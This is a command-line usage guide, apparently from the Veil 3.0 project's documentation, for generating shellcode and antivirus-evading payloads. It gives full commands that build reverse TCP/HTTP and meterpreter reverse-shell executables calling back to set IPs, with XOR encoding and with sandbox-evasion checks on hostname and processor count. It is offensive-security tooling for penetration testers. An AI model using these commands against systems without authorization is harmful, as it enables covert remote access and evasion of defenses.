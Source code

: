 # Veil 3.0 Command Line Usage
Most Veil users will utilize Veil’s interactive menu to generate shellcode and/or Veil payloads. 
However, I expect while only a minority of users take advantage of the command line options, that they do so quite heavily. 
Therefore, I wanted to ensure that a command line interface exists for Veil in the event the user wants to script its usage (or for any other means). 
With Veil’s 3.0 release, some of the options are the same, but a few more command line options have been introduced to the tool, which I hope to explain here.

## Ordnance
I’ll address how to use Ordnance within Veil all from the command line, this should (ideally) be fairly straightforward. 
In case you haven’t used Ordnance before, it is a tool that is used to quickly generate shellcode for a variety of payloads vs. relying on msfvenom to generate the shellcode for you.

~~~
./Veil.py -t Ordnance --list-payloads
~~~
This command tells Veil to list all payloads (–list-payloads) for the tool Ordnance (-t Ordnance).

~~~
./Veil.py -t Ordnance --list-encoders
~~~
This command tells Veil to list all encoders (–list-encoders) for the tool Ordnance (-t Ordnance).

~~~
./Veil.py -t Ordnance --ordnance-payload rev_tcp --ip 192.168.1.20 --port 1234
~~~
This command specifies to use Ordnance (-t Ordnance) and generate a reverse tcp payload (–ordnance-payload rev_tcp) which connects back to the ip 192.168.1.20 (–ip 192.168.1.20) on port 1234 (–port 1234).

~~~
./Veil.py -t Ordnance --ordnance-payload rev_http --ip 192.168.1.21 --port 1235 -e xor -b \\x13\\x98
~~~
This command specifies to use Ordnance (-t Ordnance) and generates a reverse http payload which connects back to the ip 192.168.1.21 (–ip 192.168.1.21) on port 1235 (–port 1235). 
The command then further specifies that an xor encoder should be applied (-e xor) and the bad characters \x13\x98 should be avoided (-b \\x13\\x98).

## Evasion
Let’s go over a couple commands and I’ll explain their components:

~~~
./Veil.py -t Evasion --list-payloads
~~~
This command tells Veil to list all payloads (–list-payloads) for the tool Evasion (-t Evasion).

~~~
./Veil.py -t Evasion -p 33 --ordnance-payload rev_tcp --ip 192.168.1.3 --port 8675 -o christest
~~~
This command will actually generate an executable payload. It specifies that Evasion’s (-t Evasion) payload number 33 (-p 33) is selected by the user. 
For shellcode generation, use Ordnance’s rev_tcp payload (–ordnance-payload rev_tcp), and set the callback ip to 192.168.1.3 (–ip 192.168.1.3) and callback port to 8675 (–port 8675). 
Finally, name the output file christest (-o christest).

The main thing to note with this command is that it is using Ordnance for shellcode generation.

~~~
./Veil.py -t Evasion -p 41 --msfvenom windows/meterpreter/reverse_tcp --ip 192.168.1.4 --port 8676 -o chris
~~~
This command is fairly similar to the above command, but relies on msfvenom for generating shellcode. 
The command states to use Evasion’s (-t Evasion) payload number 41 (-p 41) and to generate windows/meterpreter/reverse_tcp shellcode via msfvenom with the callback IP set to 192.168.1.4 (–ip 192.168.1.4) and callback port set to 8675 (–port 8675). 
Finally, it names the output file chris (-o chris).

Now, what if you want to specify some of the required options for a payload Here’s your answer!

~~~
./Veil.py -t Evasion -p 34 --ordnance-payload rev_tcp --ip 192.168.1.5 --port 8677 -o chrisout -c hostname=thegrid processors=2
~~~
This command specifies to use Evasion’s (-t Evasion) payload number 34 (-p 34) and have ordnance generate a reverse tcp payload (–ordnance-payload rev_tcp) with a callback IP set to 192.168.1.5 (–ip 192.168.1.5) with a callback port of 8677 (–port 8677). 
The output file is named chrisout (-o chrisout), and two checks are being specified. 
The payload will explicitly check to make sure the hostname of the system the payload is running on is “thegrid” (-c hostname=thegrid) and that there are at least two (2) processors on the system (processors=2). 
Yes, there is a space between hostname=thegrid and processors=2.
If you only wanted to check for the hostname, you would remove the processors=2 from the -c command (the command would now look like -c hostname=thegrid). 
Embedding basic checks, such as these, within your payload(s) can be useful when attempting to enumerate and avoid sandboxes.

~~~
./Veil.py --clean
~~~
Ideally, this one is self-explanatory. If you’ve created multiple payloads and just want to remove all the compiled output, source code, handler files, and tracked hashes, run this command and Veil will remove everything.

Hopefully this helps to explain Veil’s command line interface. 
However, if you have any questions, please don’t hesitate to reach out over twitter (@VeilFramework or @ChrisTruncer) and I’ll be happy to answer any questions. 
If you encounter any bugs, feel free to create a Github issue!